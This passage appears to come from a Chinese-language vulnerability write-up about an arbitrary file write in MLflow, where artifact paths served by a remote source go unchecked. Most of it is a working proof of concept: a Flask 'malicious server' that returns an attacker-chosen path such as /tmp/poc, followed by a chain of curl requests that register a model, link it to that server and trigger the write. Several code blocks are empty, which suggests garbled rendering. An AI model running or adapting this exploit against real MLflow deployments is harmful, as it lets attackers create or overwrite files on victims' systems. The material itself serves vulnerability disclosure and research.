 对于属性中列出的每个文件，它将获取并写入属性值的输出。由于没有检查，因此可以在系统上创建和控制任何文件，即  
```
files/api/2.0/mlflow-artifacts/artifacts/[path]path/tmp/random
```  
  
为了滥用此漏洞，必须设置一个恶意的HTTP服务器来控制写入路径和数据。以下一个将用于接下来的 2 个 PoC：  
```
from flask import Flask, jsonify

app = Flask(__name__)
app.config["DEBUG"] = True

@app.errorhandler(404)
def page_not_found(e):
    return "Hello World!"

@app.route("/api/2.0/mlflow-artifacts/artifacts")
def index():
    return jsonify({
        "files": [
            {
                "path": "/tmp/poc",
                "is_dir": False,
                "file_size": 50
            }
        ]
    })

app.run("0.0.0.0", 4444)
```  
  
启动 mlflow Web 服务器：  
```
mlflow ui --host 127.0.0.1:5000
```  
  
启动攻击服务器：  
```
python run.py
```  
  
创建已注册的模型：  
```
```  
```
curl -X POST -H 'Content-Type: application/json' -d '{"name": "poc"}' 'http://127.0.0.1:5000/ajax-api/2.0/mlflow/registered-models/create'
```  
  
创建第一个模型：（将与恶意服务器相关联）  
```
```  
```
curl -X POST -H 'Content-Type: application/json' -d '{"name": "poc", "source": "http://127.0.0.1:4444/api/2.0/mlflow-artifacts/artifacts/"}' 'http://127.0.0.1:5000/ajax-api/2.0/mlflow/model-versions/create'
```  
```
```  
```
```  
```
curl -X POST -H 'Content-Type: application/json' -d '{"name": "poc", "source": "models:/poc/1"}' 'http://127.0.0.1:5000/ajax-api/2.0/mlflow/model-versions/create'
```  
```
```  
```
```  
```
curl 'http://127.0.0.1:5000/model-versions/get-artifact?path=random&name=poc&version=2'
```